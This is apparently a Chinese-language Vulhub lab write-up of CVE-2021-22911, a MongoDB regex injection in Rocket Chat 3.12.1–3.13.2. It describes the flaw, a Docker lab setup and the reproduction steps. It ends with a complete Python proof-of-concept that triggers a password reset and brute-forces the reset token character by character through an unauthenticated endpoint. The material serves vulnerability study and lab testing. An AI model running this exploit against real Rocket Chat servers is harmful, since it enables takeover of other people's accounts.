




# Rocket Chat MongoDB 注入漏洞 CVE-2021-22911

## 漏洞描述

Rocket Chat是一款基于Node.js、MongoDB的开源团队聊天工具。在其3.12.1~3.13.2版本中，存在一处MongoDB注入漏洞，利用这个漏洞，攻击者可以获取用户敏感信息，甚至在服务器上执行任意命令。

这个漏洞有两种攻击方式：

- 未授权攻击者可以利用这个漏洞，获取任意普通用户的Password Reset Token，并通过这个Token修改其密码
- 普通用户可以利用这个漏洞，获取任意用户的任意信息

参考链接：

- https://blog.sonarsource.com/nosql-injections-in-rocket-chat
- https://www.exploit-db.com/exploits/50108
- https://github.com/CsEnox/CVE-2021-22911
- https://paper.seebug.org/1652/

## 环境搭建

Vulhub执行如下命令启动一个Rocket Chat 3.12.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`即可查看到Rocket Chat的安装向导，跟随向导进行安装即可。

安装完成后，为了验证第一个攻击方法，我们需要在后台增加一个普通用户，用户名为`vulhub`，邮箱为`vulhub@vulhub.org`。

## 漏洞复现

我们只来复现第一种利用方式。复现这个漏洞需要三步：

1. 通过邮箱找回密码，后台会在数据库中会生成Password Reset Token
2. 利用MongoDB注入，获取这个Password Reset Token
3. 使用Password Reset Token来更改这个用户的密码

其中，我们使用`$regex`语句进行MongoDB注入，当`$regex: ^7`时，不匹配，返回一个错误信息：



当`$regex: ^8`时能够匹配，返回正确信息：



将注入的过程通过[CVE-2021-22911.py](https://github.com/vulhub/vulhub/blob/master/rocketchat/CVE-2021-22911/CVE-2021-22911.py)这个小脚本进行实现，自动化获取Password Reset Token：



使用Password Reset Token修改用户密码成功：



## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/rocketchat/CVE-2021-22911/CVE-2021-22911.py

```python
import sys
import time
import string
import json
import requests


guess = '-_' + string.digits + string.ascii_letters
session = requests.session()
session.headers = {
    'Content-Type': 'application/json',
}


def reset_password(target: str, email: str):
    payload = {
        'msg': 'method',
        'method': 'sendForgotPasswordEmail',
        'params': [email],
    }

    session.post(
        f'{target}/api/v1/method.callAnon/sendForgotPasswordEmail',
        json={'message': json.dumps(payload)},
    )
    sys.stdout.write("[+] Password Reset Email Sent\n")
    sys.stdout.flush()


def inject_token(target: str):
    payload = {
        'msg': 'method',
        'method': 'getPasswordPolicy',
        'params': [
            {
                'token': {'$regex': '^'}
            }
        ],
    }
    for i in range(43):
        current = payload['params'][0]['token']['$regex']
        sys.stdout.write(f'[*] Guess No.{i + 1} character: ')
        for ch in guess:
            payload['params'][0]['token']['$regex'] = current + ch
            response = session.post(
                f'{target}/api/v1/method.callAnon/getPasswordPolicy',
                json={'message': json.dumps(payload)},
            )
            if b'Meteor.Error' not in response.content:
                sys.stdout.write(f"\n[+] Current token is {payload['params'][0]['token']['$regex'][1:]}\n")
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('.')
                sys.stdout.flush()

            time.sleep(1.5)


if __name__ == '__main__':
    target = sys.argv[1]
    reset_password(target, sys.argv[2])
    inject_token(target)
```

